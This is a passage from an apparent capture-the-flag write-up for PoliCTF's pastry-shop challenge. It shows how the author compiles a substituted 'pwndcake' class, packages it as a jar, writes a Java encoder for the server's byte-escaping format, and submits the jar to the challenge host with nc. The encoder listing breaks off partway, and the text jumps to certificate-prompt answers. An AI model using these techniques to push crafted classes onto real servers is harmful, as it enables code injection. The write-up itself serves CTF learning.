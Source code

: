         this.shouldBeAddedTheSpecialIngredient = true;
    }
}
</code></pre>
I went to build my pwndcake
<pre><code class="shell">
javac Cake.java NewYorkCheeseCake.java
Cake.java:21: illegal start of type
        ingredientsList = new LinkedList<>();
</code></pre>
Looks like an error. Since strings are being added to that list in the original NewYorkCheeseCake class I just put string in between the angle brackets and tried to compile again.
<pre><code>
javac Cake.java NewYorkCheeseCake.java
ingredientsList = new LinkedList<String>();
Cake.java:3: package com.sun.istack.internal does not exist
import com.sun.istack.internal.NotNull;
                              ^
Cake.java:29: cannot find symbol
symbol  : class NotNull
location: class it.polimi.necst.johncakedesigner.Cake
    public @NotNull List<String> getIngredients() {
            ^
2 errors
</code></pre>
I just removed the import line and the @NotNull decorator and tried to compile again. This time it worked. Then I needed to pack it into a jar file.
<pre><code class="lang:shell">
mkdir -p it/polimi/necst/johncakedesigner && cp NewYorkCheeseCake.class $\_
jar -cfe pwndcake.jar it.polimi.necst.johncakedesigner.NewYorkCheeseCake it
</code></pre>

It took me a while to figure out how to do this right. The path needs to be it/polimi/necst/johncakedesigner because of the package name it.polimi.necst.johncakedesigner. I sent the jar.
<pre><code>
nc pastry.polictf.it 80 < pwndcake.jar
Welcome to John's Pastry Shop!
[Error] zip file is empty Exit now..
</code></pre>
No luck, it thinks the jar is empty since it isn't encoded like it should be. I took a closer look at the decoding algorithm and wrote an encoder. Essentially the decoder expects an INIT\_BYTE (0x17) at the beginning of the file, an EXIT\_BYTE (0x19) at the end of the file, and any occurances of INIT\_BYTE or EXIT\_BYTE in the middle of the file with ESCAPE\_BYTE (0x18). ESCAPE\_BYTEs that are not escaping other bytes are also escaped with an ESCAPE\_BYTE (like \\\\ in the shell). From this knowledge I wrote an encoder to take a normal jar file from stdin, encode it, and write the encoded bytes to the file encoded.jar.
<pre><code class="lang:java">
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
public class Encode {
    private static final byte INIT_BYTE = (byte) 0x17;
    private static final byte ESCAPE_BYTE = (byte) 0x18;
    private static final byte EXIT_BYTE = (byte) 0x19;
    public static void main(String args[]){
        int read;
        try {
            File file = new File("encoded.jar");
            FileOutputStream outputStream = new FileOutputStream(file);
            outputStream.write((byte) INIT_BYTE);
            while ((read = System.in.read()) != -1) {
                if ((byte) read == INIT_BYTE || (byte)read == EXIT_BYTE\|| (byte)read == ESCAPE_BYTE){
                    outputStream.write((byte) ESCAPE_BYTE);
                }

  [no]:  yes
  [Unknown]:  Shamano Pastry Shop
  [Unknown]:  Shamano Cooking Service
  [Unknown]:  Shamano Inc.
  [Unknown]:  Milano
  [Unknown]:  Italy
  [Unknown]:  IT
  [no]:  yes